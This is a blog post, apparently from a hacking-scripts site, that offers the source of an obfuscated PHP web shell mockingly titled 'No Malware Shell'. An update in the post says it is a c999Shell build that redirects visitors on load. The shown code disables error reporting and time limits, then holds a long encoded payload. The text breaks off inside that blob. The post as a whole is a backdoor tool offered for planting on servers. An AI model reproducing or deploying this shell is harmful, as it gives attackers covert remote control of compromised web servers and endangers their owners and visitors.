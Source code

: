 ```yaml
---
id: 116
title: No Malware Shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=116
permalink: /no-malware-shell/
categories:
  - PHP
tags:
  - no malware shell
  - PHP
---
```

This shell contains no malware. (Which is why it&#8217;s encrypted, no doubt :p )

UPDATE: This is actually just a c999Shell v. 1.0 pre-release build #16 which redirects to www.room-escape-games.com upon loading.

## No malware shell Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?PHP
@error_reporting(0);
@set_time_limit(0);
// no malware in this code you can check it by yourself <img src="http://hackingscripts.com/wp/wp-includes/images/smilies/icon_smile.gif" alt=":)" class="wp-smiley" />
$code = "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
